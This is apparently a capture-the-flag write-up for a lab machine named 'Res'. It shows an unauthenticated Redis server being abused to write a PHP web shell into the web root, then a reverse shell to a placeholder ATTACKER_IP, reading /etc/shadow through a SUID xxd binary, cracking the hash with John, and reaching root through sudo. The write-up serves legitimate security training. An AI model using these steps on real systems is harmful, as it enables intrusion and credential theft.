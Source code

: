 # Res

##### Written: 23/11/2021

##### IP address: 10.10.46.25

---

### [ Scan the machine, how many ports are open? ]

As always, we start off with a **nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.46.25
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

The results show **2** ports open

---

### [ What's is the database management system installed on the server? ]

**Redis** is installed on the server.

---

### [ What port is the database management system running on? ]

It is installed on port **6379**.

---

### [ What's is the version of management system installed on the server? ]

From the nmap scan, we can see that the version is **6.0.7**.

---

### [ Compromise the machine and locate user.txt ]

After doing some research online, I found this website which teaches us how to obtain Remote Code Execution via a Redis server:

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

<img style="float: left;" src="screenshots/screenshot2.png">

<br>

We can connect to the Redis server using **redis-cli** (Installation: `sudo apt install redis-tools`)

```
redis-cli -h 10.10.46.25 -p 6379
```

By default, Redis servers do not require authentication to login. Fortunately, this is the case for us as we can log in without needing to supply any credentials!

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

Next, we need to set the working directory of our Redis client to the root directory of the web server.

**HTTP Web server on port 80:**

<img style="float: left;" src="screenshots/screenshot3.png">

From the webpage, we know that the web server is running **Apache**. The root directory of Apache servers is **/var/www/html**.

We can then follow the exploit instructions like so:

```
// in redis-cli

config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

This will create a new PHP file called **redis.php** in the /var/www/html directory of our target machine. We then set a key 'test' with a value of `<?php phpinfo(); ?>`

To test whether we can access this redis.php file and run the code, we visit `http://10.10.46.25/redis.php`:

<img style="float: left;" src="screenshots/screenshot4.png">

Nice! It works :smile: 

<br>

Now let's change the PHP code so that we can inject some commands:

```  
// in redis-cli

set test "<?php system($_GET['cmd']); ?>"
save
```

When this PHP code runs, it will get the '**cmd**' parameter from the GET request sent to the web server. **system()** will then execute that command on the machine.

We then set up a netcat listener running on a port of our choice.

Finally, we can open up a reverse shell by visiting `http://10.10.46.25/redis.php?cmd=ATTACKER_IP PORT -e /bin/bash`

<img style="float: left;" src="screenshots/screenshot6.png">

And we're in!

<br>

Visiting the **/home** directory, we can see that there is one other account: **vianka**.

The user flag can be found in vianka's home directory:

<img style="float: left;" src="screenshots/screenshot7.png">

---

### [ What is the local user account password? ]

Let's do some manual enumeration.

Looking through Vianka's files yielded nothing of interest. There was also nothing useful in directories like **/opt** and **/tmp**.

Next, I decided to search for SUID-bit set files:

```
find / -type f -perm /u=s 2>/dev/null
```

**Results:**

<img style="float: left;" src="screenshots/screenshot8.png">

We have an interesting file: **xxd**

<br>

Looking on GTFOBins, we can find the following way to exploit this program: https://gtfobins.github.io/gtfobins/xxd/

<img style="float: left;" src="screenshots/screenshot9.png">

It seems that we can use this program to read any file that we like on the system. Let's follow the exploit steps and read **/etc/shadow**:

```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```

<img style="float: left;" src="screenshots/screenshot10.png">

And we have found Vianka's hashed password (at the bottom).

<br>

We then use **John the Ripper** to crack the password.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

**Results:**

<img style="float: left;" src="screenshots/screenshot11.png">

Password: **beautiful1**

---

### [ Escalate privileges and obtain root.txt ]

We can now log into Vianka's account.

<img style="float: left;" src="screenshots/screenshot12.png">

Let's check Vianka's **sudo privileges**:

```
sudo -l
```

<img style="float: left;" src="screenshots/screenshot13.png">

Turns out Vianka has complete sudo privileges, meaning they can run any program as any user, including root!

We can then obtain the root flag directly from the root home directory using `sudo`.

```
sudo cat /root/root.txt
```

<img style="float: left;" src="screenshots/screenshot14.png">

